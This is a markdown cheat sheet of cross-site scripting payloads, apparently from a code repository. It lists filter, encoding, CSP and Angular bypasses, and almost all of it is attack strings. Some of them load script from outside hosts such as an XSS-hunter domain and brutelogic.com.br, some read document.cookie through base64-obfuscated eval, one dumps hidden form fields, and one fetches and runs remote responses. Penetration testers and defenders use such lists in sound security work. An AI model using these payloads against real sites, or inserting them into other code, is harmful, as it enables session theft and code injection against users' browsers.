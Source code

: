 > Blind XSS payload XXShunter

```"><script src=https://a007.xss.ht></script>```

> ASP filter bypass

```%u003Cscript%u003Eprompt%u0028303%u0029%u003C/script%u003E```

Double URL encoding

```%253Cscript%253Ealert(1)%253C%252Fscript%253E```

XSS in XML

```<![CDATA[<]]>script<![CDATA[>]]>alert('xss')<![CDATA[<]]>/script<![CDATA[>]]>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>```

```<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="//brutelogic.com.br/1.js"/>```

 Where :// is required after protocol

```javascript://%250aalert(1)```

XSS in email addresses

```"\"><s>test"@gmail.com```
  
```javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));```

```<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='));</script>```

```<imG/sRc=l oNerrOr=(prompt)() x>```

 ```<body onpageshow=alert(1)>```

```<style onload=alert(1)>```

```<marquee behavior="alternate" onstart=alert(1)>XSS</marquee>```

```<d3"<"/onclick="1>[confirm``]"<">z```

```&lt;script&gt;confirm(1)&lt;/script&gt;```

GET Hidden Fields data

```<script>var xss = '';f=document.forms;for(i=0;i<f.length;i++){e=f[i].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+': '+e[n].value)}}};//'';</script>```

```<table><thead style=font-size:100px onmouseover=prompt(1)><td>XSS```

```<svg/x=">"/onload=confirm()//```

```<sCript x>(((confirm)))``</scRipt x>```

```<svg </onload ="1> (_=prompt,_(1)) "">```

```<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>```

```<w="/x="y>"/ondblclick=`<`[confir\u006d``]>XXS```

```<script/x>alert(1)</script/x>```

```"><!--<iMg sRc=--><img src=x oNERror=(prompt)`1` x>"```

```"><deTails oNToggle=confi\u0072m(1)>"```

Get response back to server

```<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//127.0.0.1:8080");a.send();</script>```

```<A/iD=x hREf=jav&#x09;ascript:prom&#x09;pt(doc&#x09;ument.coo&#x09;kie); id=x>XSS```

```data:,alert(1)```

```\'-alert(1)//```

```'}alert(1);{'```

```'}alert(1)%0A{'```

```\'}alert(1);{//```

CSP bypass if http://ajax.googleapis.com is whitelisted

```<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>```

```<embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>```

```<script src=data:,alert(1)>```


Angular JS XSS

```{{constructor.constructor('alert(1)')()}}```

```<x ng-app>{{constructor.constructor('alert(1)')()}} ```

Upper Case

```<SCRIPT SRC=//BRUTELOGIC.COM.BR/1></SCRIPT>```

 ```<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>```
 
```data:text/html,<svg onload=alert(1)>```
